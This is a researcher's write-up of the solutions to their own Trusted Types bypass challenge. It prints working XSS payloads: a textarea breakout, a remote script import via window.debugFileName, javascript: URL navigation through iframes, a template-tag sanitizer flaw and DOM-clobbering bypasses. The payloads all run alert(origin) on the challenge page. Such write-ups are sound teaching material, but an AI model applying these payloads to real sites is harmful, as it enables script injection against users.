 # Trusted Types bypass challenge solutions

In the hope that people will read [my blog post](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types/), I've created this challenge 😋

## The Blob URL bug

```
<template id="contact">
    <p>If you found a bug in the S3, contact us with <a id="in_out_link" download>this file</a> on HackerOne!</p>
</template>
<script>
...

let in_out_link = document.getElementById('in_out_link');
if (!in_out_link) {
  const contact_df = document.getElementById('contact').content.cloneNode(true);
  document.querySelector('footer').appendChild(contact_df);
  in_out_link = document.getElementById('in_out_link');
}
const html = `<h2>Input:</h2><br><textarea>${dirty}</textarea><br><h2>Output:</h2><br><div>${outDiv.innerHTML}<div>`;
const blob = new Blob([html], {type: 'text/html'});
const url = URL.createObjectURL(blob);
in_out_link.href = url;

...
</script>
```

The contruction of above Blob URL is vulnerable to XSS, as dirty input goes inside `<textarea>`. With a payload like `<a class="</textarea><img src=x onerror=alert(origin)>">click</a>`, you can break out of `<textarea>` and trigger an XSS.
However, the link has `download` attribute specified, which will force it to download instead of rendering. Which will break the rule of this challenge to execute script in the challenge origin.
But, since an `<a>` tag is allowed in the sanitizer, you can simply pass `<a>` tag with `in_out_link` id, and you can navigate to it without triggering the download.

[https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Ca%20id=in_out_link%20class=%22%3C/textarea%3E%3Cimg%20src=x%20onerror=alert(origin)%3E%22%3EClick%20me%3C/a%3E](https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Ca%20id=in_out_link%20class=%22%3C/textarea%3E%3Cimg%20src=x%20onerror=alert(origin)%3E%22%3EClick%20me%3C/a%3E)

Wait, but shouldn't Trusted Types block this? Read [this section](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types/#blob-url) on my blog post for the explanation 😉


## The import bug

```
if (window.name == "debug") {
  import(`${window.debugFileName}`);
}
```

This one is super simple 😊

`data:text/html,<iframe src="https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=<a id=debugFileName href='https://attack.shhnjk.com/alert.js'>" name=debug>`

Read [this section](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types/#script-loading-like-import) on my blog post for the explanation 😉

## The JavaScript URL bug

```
<script>
let params = new URLSearchParams(location.search);

...

const discount_url = params.get('coupon');
if (discount_url) {
  document.getElementById('sales').href = discount_url;
}

...
</script>
<a href="https://images.app.goo.gl/Bq9znUmASj3E8MiS7" id="sales" target="blank">Contact Sales</a>
```

Only few people solved this bug, even though many people guessed that `discount_url` is the XSS sink. While `javascript:` URL can be set to the _sales_ link, the navigation to it will be blocked by Trusted Types.
This is the key. If you can navigate to `javascript:` URL where Trusted Types isn't enforced, you won't get blocked 😎
If you look closely, the developer made a typo here in the `target` attribute of the _sales_ link. Since we can create an iframe, we can point an iframe to the `parse_html_subset.js` file, and there shouldn't be a Trusted Types enforcement on that page!
But, too early to get happy. The `name` attribute isn't allowed in the sanitizer... Sh💩t. 

Well, in Chrome, you can set the name inside an iframe, and it can be now targeted 😊 So putting all together, following is the solution.

[https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Ciframe%20src=%22https://vuln.shhnjk.com/xssable.php?xss=%3Cscript%3Ewindow.name=%27blank%27;location.href=%27https://shhnjk.github.io/challenge/tt/parse_html_subset.js%27%3C/script%3E%22%3E&coupon=javascript:alert(origin)](https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Ciframe%20src=%22https://vuln.shhnjk.com/xssable.php?xss=%3Cscript%3Ewindow.name=%27blank%27;location.href=%27https://shhnjk.github.io/challenge/tt/parse_html_subset.js%27%3C/script%3E%22%3E&coupon=javascript:alert(origin))

BTW, [alex](https://twitter.com/insertScript) came up with a slightly different solution. He framed 2 pages where one would point to payload page, and another point to `parse_html_subset.js` page with `<iframe>`'s `name` attribute set to `blank`. This was a clever solution 😀

`data:text/html,<iframe src="https://shhnjk.github.io/challenge/tt/parse_html_subset.js" name="blank"></iframe><iframe height="500" width="500" src="https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?coupon=javascript:alert(origin)"></iframe>`

Read [this section](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types/#cross-document-vectors) on my blog post for the explanation 😉

## The sanitizer bug

People may have noticed that I used [parse_html_subset.js](https://source.chromium.org/chromium/chromium/src/+/master:ui/webui/resources/js/parse_html_subset.js;drc=cde9cbd148fe2c069a7a4c98cfd9ffa3b3ae502a) from Chromium repo.
However, I have added more allowed tags to introduce a bug ([Diff](https://www.diffchecker.com/ub73NtUr)). Namely, the `<template>` tag. A `<template>` tag has to be carefully handled in an HTML sanitization, as you'd have to access `HTMLTemplateElement.content` to iterate through the _DocumentFragement_ inside a `<template>` tag. Since _parse_html_subset.js_ wasn't written to handle `<template>` tag, this would result in dirty HTML injection. But this doesn't result in an XSS yet, because scripts inside a `<template>` tag won't get executed. Luckily, there is a code in the challenge which take contents of `<template>` tag with `contact` id. 

Therefore, following is the solution.

[https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Ctemplate%20id=%22contact%22%3E%3Cimg%20src=x%20onerror=alert(origin)%3E%3C/template%3E](https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Ctemplate%20id=%22contact%22%3E%3Cimg%20src=x%20onerror=alert(origin)%3E%3C/template%3E)

This bug has nothing to do with Trusted Types, as this sanitizer was allowed by Trusted Types header in the challenge page. But this is just a reminder that a DOM XSS will still be introduced if the sanitizer allowed by a Trusted Types policy is unsafe.

## Unintentional sanitizer bypasses

When I modified [parse_html_subset.js](https://source.chromium.org/chromium/chromium/src/+/master:ui/webui/resources/js/parse_html_subset.js;drc=cde9cbd148fe2c069a7a4c98cfd9ffa3b3ae502a), I added bunch of _safe_ tags from [DOMPurify](https://github.com/cure53/DOMPurify), just to hide the fact that I've added the `<template>` tag. Obviously, some clever people have took this fact to their advantage 😂

[Michał Bentkowski](https://twitter.com/SecurityMB) found out that with a `<form>` tag, he can perform a DOM Clobbering to hide dangerous attributes from the sanitizer's parser, when there is an element with `id=attributes`.

Vulnerable code:

```
switch (node.nodeType) {
    case Node.ELEMENT_NODE:
      assertElement(tags, node);
      const nodeAttrs = node.attributes; <--- OMG
      for (let i = 0; i < nodeAttrs.length; ++i) {
        assertAttribute(attrs, nodeAttrs[i], node);
      }
      break;

    case Node.COMMENT_NODE:
    case Node.DOCUMENT_FRAGMENT_NODE:
    case Node.TEXT_NODE:
      break;

    default:
      throw Error('Node type ' + node.nodeType + ' is not supported');
}

```

[https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Cform%20onclick=%22alert(origin);return%20false%22%3E%3Cimg%20id=attributes%3E%3Ca%20href=https://a%3EClick%20here%3C/a%3E](https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Cform%20onclick=%22alert(origin);return%20false%22%3E%3Cimg%20id=attributes%3E%3Ca%20href=https://a%3EClick%20here%3C/a%3E)

Similarly, [TheGrandPew](https://twitter.com/PewGrand) and [alex](https://twitter.com/insertScript) found out that with a `<form>` tag, they can perform a DOM Clobbering to hide dangerous tags from the sanitizer's parser, when there is an element with `id=childNodes`.

Vulnerable code:

```
function walk(n, f) {
  f(n);
  for (let i = 0; i < n.childNodes.length; i++) {
    walk(n.childNodes[i], f);
  }
}
```

[https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Cform%3E%3Cinput%20id=childNodes%3E%3Cimg%20src=x%20onerror=alert(origin)%3E%3C/form%3E](https://shhnjk.github.io/challenge/tt/TrustedTypesBypassChallenge.html?code=%3Cform%3E%3Cinput%20id=childNodes%3E%3Cimg%20src=x%20onerror=alert(origin)%3E%3C/form%3E)

These were amazing bugs, and while I could consider these bugs as 5th or 6th bugs, I decided to treat these bugs and the intended sanitizer bypass as 1 bug for the sake of this challenge. However, since these bugs deserve a credit, I made another list for honorable mentions 😊

Hope you enjoyed the challenge!
